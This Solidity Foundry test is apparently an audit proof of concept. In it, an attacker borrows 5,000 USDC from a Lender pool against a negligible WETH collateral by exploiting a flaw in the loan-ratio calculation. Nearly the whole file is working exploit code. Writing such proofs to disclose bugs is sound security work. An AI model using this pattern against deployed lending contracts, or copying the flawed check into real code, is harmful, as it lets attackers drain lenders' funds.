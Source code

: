 ```solidity
    Lender public _lender;
    IERC20 public _usdc = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);
    WETH public _weth = WETH(payable(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2));

    address bob = vm.addr(0x01);
    address attacker = vm.addr(0x02);

    address _donator = 0x47ac0Fb4F2D84898e4D9E7b4DaB3C24507a6D503;

    function setUp() public {
        _lender = new Lender();
    }


    function test_calculationExploit() external {
        vm.startPrank(_donator);
        _usdc.transfer(bob, 5000e6);
        _usdc.transfer(attacker, 5000e6);
        vm.stopPrank();
        vm.deal(bob, 5e18);
        vm.deal(attacker, 5e18);
        vm.startPrank(bob);
        _weth.deposit{value: 5e18}();
        Pool memory p = Pool({
            lender: bob,
            loanToken: address(_usdc),
            collateralToken: address(_weth),
            minLoanSize: 100e6,
            poolBalance: 5000e6,
            maxLoanRatio: 2*10**18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        _usdc.approve(address(_lender), type(uint256).max);
        _lender.setPool(p);
        vm.stopPrank();
        vm.startPrank(attacker);
        _weth.deposit{value: 5e18}();
        bytes32 poolId = _lender.getPoolId(bob, address(_usdc), address(_weth));
        Borrow memory b = Borrow({
            poolId: poolId,
            debt: 5000e6,
            collateral: 1e10 // collateral is WETH --> 0.00000001 --> 0.000018$ to borrow 5k USDC
        });
        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = b;
        _weth.approve(address(_lender), type(uint256).max);
        _lender.borrow(borrows);
        vm.stopPrank();
        console.log("USDC Balance Attacker: ", _usdc.balanceOf(attacker));
        console.log("WETH Balance Attacker: ", _weth.balanceOf(attacker));
    }

}

```
